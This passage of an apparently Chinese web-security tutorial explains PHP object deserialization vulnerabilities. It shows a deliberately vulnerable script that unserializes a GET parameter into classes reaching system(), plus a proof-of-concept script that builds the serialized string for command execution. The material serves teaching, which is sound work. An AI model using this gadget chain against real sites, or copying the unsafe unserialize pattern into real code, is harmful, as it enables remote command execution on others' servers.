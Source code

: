 <p data-nodeid="29307">下面通过一段漏洞代码来演示下魔术方法在反序列化漏洞中的利用，vul.php 漏洞代码如下：</p>
<pre class="lang-php" data-nodeid="29308"><code data-language="php"><span class="hljs-meta">&lt;?php</span>
  <span class="hljs-class"><span class="hljs-keyword">class</span> <span class="hljs-title">People</span> </span>{
    <span class="hljs-keyword">private</span> $type;

    <span class="hljs-function"><span class="hljs-keyword">function</span> <span class="hljs-title">__construct</span>(<span class="hljs-params"></span>)</span>{
      <span class="hljs-keyword">$this</span>-&gt;type = <span class="hljs-keyword">new</span> Student();
    }

    <span class="hljs-function"><span class="hljs-keyword">function</span> <span class="hljs-title">__destruct</span>(<span class="hljs-params"></span>) </span>{
      <span class="hljs-keyword">$this</span>-&gt;type-&gt;run();
    }
  }

  <span class="hljs-class"><span class="hljs-keyword">class</span> <span class="hljs-title">Student</span> </span>{
    <span class="hljs-function"><span class="hljs-keyword">function</span> <span class="hljs-title">run</span>(<span class="hljs-params"></span>) </span>{
      <span class="hljs-keyword">echo</span> <span class="hljs-string">"he is a student."</span>;
    }
  }

  <span class="hljs-class"><span class="hljs-keyword">class</span> <span class="hljs-title">Evil</span> </span>{
    <span class="hljs-keyword">var</span> $cmd;
    <span class="hljs-function"><span class="hljs-keyword">function</span> <span class="hljs-title">run</span>(<span class="hljs-params"></span>) </span>{
      system(<span class="hljs-keyword">$this</span>-&gt;cmd);
    }
  }

  unserialize($_GET[<span class="hljs-string">'str'</span>]);  <span class="hljs-comment">// 漏洞触发点，引用外部可控参数作为反序列化数据</span>
<span class="hljs-meta">?&gt;</span>
</code></pre>
<p data-nodeid="29309">先分析下代码，$_GET['str'] 获取 get 参数 str 值，然后传递给 unserialize 进行反序列化操作，这就是导致漏洞的地方。</p>
<p data-nodeid="29310">那么我们该如何利用呢？审查整份代码，发现 Evil 类中的命令执行方法 run()，如果能控制其中的 $cmd 变量就可以实现远程命令执行。在 People 类的 __construct 方法中有属性赋值操作，将 Student 对象赋值给 $type 属性。</p>
<p data-nodeid="29311">同时，在 __destruct 方法中有调用 run() 方法的操作，因此我们可以设法此这些操作关联起来，写出利用代码去生成用来实现命令执行的序列化字符串。</p>
<p data-nodeid="29312">poc.php 利用代码如下：</p>
<pre class="lang-php" data-nodeid="29313"><code data-language="php"><span class="hljs-meta">&lt;?php</span>
  <span class="hljs-class"><span class="hljs-keyword">class</span> <span class="hljs-title">People</span> </span>{
    <span class="hljs-keyword">private</span> $type;

    <span class="hljs-function"><span class="hljs-keyword">function</span> <span class="hljs-title">__construct</span>(<span class="hljs-params"></span>)</span>{
      <span class="hljs-keyword">$this</span>-&gt;type = <span class="hljs-keyword">new</span> Evil();
    }
  }
  <span class="hljs-class"><span class="hljs-keyword">class</span> <span class="hljs-title">Evil</span> </span>{
    <span class="hljs-keyword">var</span> $cmd = <span class="hljs-string">'id'</span>;
  }
  $people = <span class="hljs-keyword">new</span> People();
  $str = serialize($people);
  <span class="hljs-keyword">echo</span> $str;
<span class="hljs-meta">?&gt;</span>
</code></pre>